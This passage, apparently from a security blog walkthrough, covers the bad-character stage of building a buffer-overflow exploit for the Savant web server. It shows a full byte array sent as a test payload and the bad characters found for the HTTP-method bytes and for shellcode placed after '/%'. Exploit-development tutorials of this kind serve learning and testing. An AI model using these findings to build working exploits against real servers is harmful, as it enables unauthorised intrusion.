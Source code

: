 ![Fuzzing results](https://github.com/smarinovic/smarinovic.github.io/blob/master/assets/img/savant_8.png?raw=true)

## Finding bad chars ##

Next step is to find bad characters which cannot be used in payload.
Standard way of finding bad characters is to create a list of all characters, send it as payload and observe if application still get crashed, and if it does, are all sent characters displayed correctly.

```
badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

Before we send anything, we can remove ```\x00``` from the list as it is well known bad char. Null byte (```\x00```) is used to terminate sting and as such it breaks payoad.  
  
This vulnerability is quite interesting. If we send badchars as payload after http method (which is first couple of bytes) and ```/%```we only get ```\x00\x0a\x3f``` as bad chars.
  
But when we test first couple of bytes which defines http method (GET, POST…) for bad chars we can conclude that it is more sensitive to bad chars. List of bad chars used for http method is much much longer:

```
\x00\x0a\x3f\x09\x0d\x1e\x1f\x20\x21\x22\x23\x28
\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c
\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78
\x79\x7a\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9
\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4
\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xf
```
So when we are writing shell code which will be placed after ```/%``` we cannot use following bad characters: ```\x00\x0a\x3f``` but when we are overwrigint first few bytes of payload (HTTP method) we cannot use following bad characters: ```\x00\x0a\x3f\x09\x0d\x1e\x1f\x20\x21\x22\x23\x28\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xf```
